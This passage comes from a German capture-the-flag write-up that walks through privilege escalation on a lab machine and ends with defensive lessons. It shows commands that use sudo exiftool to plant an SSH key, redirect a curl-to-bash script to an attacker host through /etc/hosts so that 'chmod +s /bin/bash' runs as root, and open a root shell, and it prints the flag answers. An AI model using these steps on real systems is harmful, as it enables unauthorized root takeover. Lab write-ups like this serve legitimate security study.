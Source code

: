 *   Konsultation von GTFOBins für Ausnutzungsmethoden von `exiftool` via `sudo`.
*   Generierung eines neuen SSH-Schlüsselpaars auf der Angreifer-Maschine.
*   Übertragung des öffentlichen SSH-Schlüssels (`influencer.pub`) an das Zielsystem (`/dev/shm`) über einen temporären HTTP-Server auf der Angreifer-Maschine.
*   Verwendung der `sudo exiftool` Schwachstelle zum Schreiben des öffentlichen Schlüssels in `/home/juan/.ssh/authorized_keys` (`sudo -u juan exiftool -filename=/home/juan/.ssh/authorized_keys /dev/shm/influencer.pub`).
*   Erfolgreiche Anmeldung via SSH als Benutzer `juan` unter Verwendung des privaten Schlüssels (`ssh juan@localhost -i /dev/shm/influencer -p 1212`).
*   Prüfung der `sudo`-Berechtigungen für `juan` (`sudo -l`). Finden von `(root) NOPASSWD: /bin/bash /home/juan/check.sh`.
*   Untersuchung von `/home/juan/check.sh`, das `/usr/bin/curl http://server.hmv/98127651 | /bin/bash` ausführte.
*   Manipulation von `/etc/hosts` auf dem Zielsystem als `juan`, um `server.hmv` auf die Angreifer-IP umzuleiten (`192.168.2.199 server.hmv >> /etc/hosts`).
*   Erstellung einer Datei `98127651` auf der Angreifer-Maschine mit dem Inhalt `chmod +s /bin/bash`.
*   Bereitstellung der Datei `98127651` über einen Python HTTP-Server auf der Angreifer-Maschine (Port 80).
*   Ausführung des anfälligen Skripts als `juan` (`sudo /bin/bash /home/juan/check.sh`), wodurch es den `chmod +s /bin/bash` Befehl als Root herunterlud und ausführte.
*   Bestätigung, dass das SUID-Bit auf `/bin/bash` gesetzt wurde (`ls -la /bin/bash`).
*   Ausführung von `bash -p` als `juan` zur Erlangung einer Root-Shell.

### 🚩 Flags

*   **User Flag:** Gefunden in `/home/juan/user.txt`
    ` <span class="password">goodjobbro</span>`
*   **Root Flag:** Gefunden in `/root/rr00t.txt`
    ` <span class="password">19283712487912"hey</span>`

---

## 🧠 Wichtige Erkenntnisse

*   **Anonymer FTP:** Kann sensible Dateien und Informationen (wie `note.txt`) enthüllen und sogar über Steganografie versteckte Daten enthalten. Beschränke den Zugriff immer und stelle sicher, dass nur nicht-sensible, öffentliche Dateien verfügbar sind.
*   **Steganografie:** Informationen (Passwörter, versteckte Dateien) können in scheinbar unbedenklichen Mediendateien verborgen sein. Tools wie `stegseek` sind nützlich für die Erkennung.
*   **OSINT für Passwörter:** Öffentlich verfügbare persönliche Informationen (Namen, Geburtstage usw.) sind von unschätzbarem Wert für die Erstellung gezielter Passwortwörterbücher (`cupp`), die die Erfolgsrate von Brute-Force-Angriffen gegen schwache Passwörter erheblich steigern.
*   **WordPress-Sicherheit:** Veraltete Plugins, offene Verzeichnislistungen (`/wp-content/uploads`), aktive REST API Benutzer-Enumeration und insbesondere der aktivierte Datei-Editor (`DISALLOW_FILE_EDIT`) sind kritische Schwachstellen. Theme-/Plugin-Editoren sollten nach der Entwicklung deaktiviert werden.
*   **Remote Code Execution (RCE):** Unzureichende Eingabevalidierung in Webanwendungen (wie der `$GET["cmd"]` Parameter) ermöglicht Angreifern die Ausführung beliebiger Systembefehle. Strikte Eingabebereinigung und Validierung sind unerlässlich.
*   **Datenbank-Zugangsdaten in Konfigurationsdateien:** Die Speicherung von Datenbank-Zugangsdaten im Klartext in leicht zugänglichen Dateien wie `wp-config.php` ist ein großes Risiko. Sicheres Konfigurationsmanagement ist entscheidend.
*   **Lokale Dienste:** Dienste, die nur auf der Loopback-Schnittstelle (`127.0.0.1`) lauschen, können immer noch von jedem Benutzer auf dem System erreicht werden und sind häufig Ziele für Lateral Movement oder Privilege Escalation, wenn sie anfällig sind oder mit schwachen Zugangsdaten verwendet werden.
*   **Sudo-Fehlkonfigurationen:** Benutzern das Ausführen leistungsstarker Binärdateien (`exiftool`) oder Skripte (`check.sh`) als andere Benutzer (insbesondere root) ohne Passwort (`NOPASSWD`) zu erlauben, ist ein häufiger und kritischer Privilege Escalation Vektor. Sudoers-Einträge sollten überprüft und auf die absolut notwendigen Befehle mit aktivierter Passwortabfrage beschränkt werden, wo immer möglich.